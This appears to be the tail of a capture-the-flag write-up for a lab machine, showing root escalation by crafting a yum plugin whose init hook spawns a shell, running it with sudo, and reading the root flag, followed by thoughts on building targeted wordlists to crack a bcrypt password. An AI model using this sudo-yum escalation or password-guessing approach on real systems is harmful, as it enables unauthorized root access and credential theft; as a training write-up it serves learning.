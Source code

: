 ```bash
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

wise words indeed

```bash
sh-4.2# id
uid=0(root) gid=0(root) groupes=0(root)
```

Actually just copy-pasting that works
what this does is basically craft a yum plugin that spawn a shell and enable/load the custom plugin
Alternatively you can craft the plugin on your own side then upload it (see gtfobins again)
Anyway we are done here

```bash
sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
```

This was amazing...I think the main thing that made this HARD is the Bcrypt hash
that single step I could not overcome alone...my computer and internet were both not good enough
But I think by optimizing my wordlists and creating specific and targeted ones I can bruteforce that
By example knowing jonah his password could be anything like..'jonah', 'peter', 'jameson', 'dailybugle','spiderman'...

All that mixed with numbers and special chars
But we all know what his biggest obsession is

Dammit peter get him those spiderman pictures
